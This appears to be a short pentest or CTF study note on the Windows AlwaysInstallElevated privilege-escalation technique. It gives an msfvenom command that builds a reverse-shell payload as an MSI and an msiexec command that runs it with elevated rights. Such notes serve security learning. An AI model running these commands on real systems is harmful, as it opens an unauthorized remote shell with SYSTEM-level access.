 # AlwaysInstallElevated

### Identifying

Running winpeas gives an output like this

![](<../.gitbook/assets/image (1) (1).png>)

### Exploiting

#### _Step1_

Create a msi exe using msfvenom

_`msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f msi > notavirus.msi`_

_\`\`_

#### _Step2_

Transfer it to windows and run it after setting up a listener

_`msiexec /i "C:\Users\Phoebe\Desktop\notavirus.msi"`_
